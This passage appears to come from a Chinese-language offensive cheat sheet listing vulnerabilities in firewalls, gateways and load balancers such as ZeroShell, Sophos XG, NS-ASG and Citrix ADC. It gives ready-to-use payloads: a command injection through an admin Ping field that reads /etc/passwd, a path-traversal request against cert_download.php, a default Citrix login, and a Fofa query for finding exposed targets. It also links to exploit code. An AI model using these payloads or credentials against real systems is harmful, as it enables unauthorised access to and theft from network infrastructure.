 **后台命令执行漏洞**
```
系统管理 --> 维护工具 --> Ping
127.0.0.1|cat /etc/passwd
```

#### zeroshell

**rce**
- POC | Payload | exp
    - [ZeroShell 3.9.0 - 'cgi-bin/kerbynet' Remote Root Command Injection (Metasploit)](https://www.exploit-db.com/exploits/49096)

#### Sophos XG

**CVE-2020-12271 && CVE-2020-15504**
- 相关文章
    - [Sophos XG - A Tale of the Unfortunate Re-engineering of an N-Day and the Lucky Find of a 0-Day](https://codewhitesec.blogspot.com/2020/07/sophos-xg-tale-of-unfortunate-re.html)

---

### 网关

#### 上海格尔安全认证网关管理系统

**相关文章**
- [上海格尔安全认证网关管理系统命令执行漏洞大礼包](https://php.mengsec.com/bugs/wooyun-2016-0170003.html)
- [上海格尔软件安全认证网关命令执行漏洞（无需登录）](https://php.mengsec.com/bugs/wooyun-2016-0169715.html)
- [上海格尔软件安全认证网关命令执行漏洞（可批量getshell）](https://php.mengsec.com/bugs/wooyun-2016-0170010.html)

#### 网康 NS-ASG 安全网关

> Fofa : 网康 NS-ASG 安全网关

**任意文件读取漏洞**
- POC | Payload | exp
    ```
    /admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
    ```

---

### 负载均衡

#### Citrix ADC
**默认口令**
```
nsroot/nsroot
```

**CVE-2019-19781 Citrix Gateway/ADC 远程代码执行漏洞**
- 相关文章
    - [Citrix Gateway/ADC 远程代码执行漏洞分析](https://www.freebuf.com/news/232752.html)
